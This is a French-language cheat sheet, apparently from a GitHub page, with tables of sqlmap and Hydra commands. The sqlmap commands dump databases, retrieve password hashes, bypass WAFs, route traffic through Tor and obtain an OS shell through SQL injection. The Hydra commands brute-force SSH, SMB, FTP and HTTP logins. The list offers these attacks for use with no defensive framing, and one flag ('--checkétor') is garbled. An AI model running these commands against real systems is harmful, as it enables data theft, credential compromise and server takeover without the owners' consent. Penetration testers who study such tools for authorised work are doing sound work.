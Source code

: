 ## Commandes Sqlmap

| No. | Commande | Explication |
|-----|----------|-------------|
| 1 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --dbs | Détecter et exploiter les vulnérabilités d'injection SQL. |
| 2 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --dump | Extraire le contenu de la base de données après avoir trouvé une injection SQL. |
| 3 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --os-shell | Obtenir un shell OS à travers une injection SQL. |
| 4 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --tamper=space2comment | Contourner le WAF en utilisant des scripts de falsification. |
| 5 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --hex | Utiliser l'encodage hexadécimal pour les charges utiles. |
| 6 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --dbms=mysql | Spécifier le SGBD pour utiliser des charges utiles spécifiques. |
| 7 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --privileges | Récupérer les privilèges de l'utilisateur SGBD. |
| 8 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --level=5 --risk=3 | Test avancé d'injection SQL avec un niveau de risque et un niveau élevés. |
| 9 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --passwords | Récupérer les hachages de mots de passe SGBD. |
| 10 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --roles | Récupérer les rôles SGBD. |
| 11 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --schema | Récupérer le schéma SGBD. |
| 12 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --count | Compter le nombre d'entrées dans les tables. |
| 13 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --search -T users --string="admin" | Rechercher des chaînes spécifiques dans la base de données. |
| 14 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --batch | Exécuter SQLmap en mode non interactif. |
| 15 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --delay=5 | Ajouter un délai entre chaque requête. |
| 16 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --timeout=10 | Définir un délai d'expiration pour chaque requête. |
| 17 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --retries=3 | Définir le nombre de tentatives pour chaque requête. |
| 18 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --tor | Utiliser le réseau Tor pour l'anonymat. |
| 19 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --checkétor | Vérifier si le réseau Tor est utilisé correctement. |
| 20 | sqlmap -u "http://192.168.1.1/vuln.php?id=1" --proxy=http://127.0.0.1:8080 | Utiliser un proxy pour les requêtes. |

## Commandes Hydra

| No. | Commande | Explication |
|-----|----------|-------------|
| 1 | hydra -l admin -P /path/to/passwords.txt 192.168.1.1 ssh | Attaque par force brute sur le login SSH en utilisant une liste de mots de passe. |
| 2 | hydra -l admin -P /path/to/passwords.txt -s 2222 ssh://192.168.1.1 | Attaque par force brute sur SSH sur un port non standard. |
| 3 | hydra -l admin -P /path/to/passwords.txt http-get://192.168.1.1 | Attaque par force brute sur l'authentification HTTP GET. |
| 4 | hydra -l admin -P /path/to/passwords.txt http-post-form://192.168.1.1/login.php | Attaque par force brute sur le formulaire de login HTTP POST. |
| 5 | hydra -L users.txt -P passwords.txt 192.168.1.1 ssh | Attaque par force brute sur SSH avec plusieurs noms d'utilisateurs. |
| 6 | hydra -L users.txt -P passwords.txt smb://192.168.1.1 | Attaque par force brute sur l'authentification SMB. |
| 7 | hydra -l admin -P /path/to/passwords.txt ftp://192.168.1.1 | Attaque par force brute sur le login FTP. |
| 8 | hydra -l admin -P /path/to/passwords.txt 192.168.1.1 ssh | Attaque par force brute sur le login SSH en utilisant Hydra. |
| 9 | hydra -l admin -P /path/to/passwords.txt http-get://192.168.1.1/login.php | Attaque par force brute sur le formulaire de login HTTP GET. |
| 10 | hydra -l admin -P /path/to/passwords.txt http-post-form://192.168.1.1/login.php | Attaque par force brute sur le formulaire de login HTTP POST. |
| 11 | hydra -l admin -P /path/to/passwords.txt -e nsr 192.168.1.1 ssh | Attaque par force brute sur SSH avec des devinettes de mot de passe null/simple/inverse. |
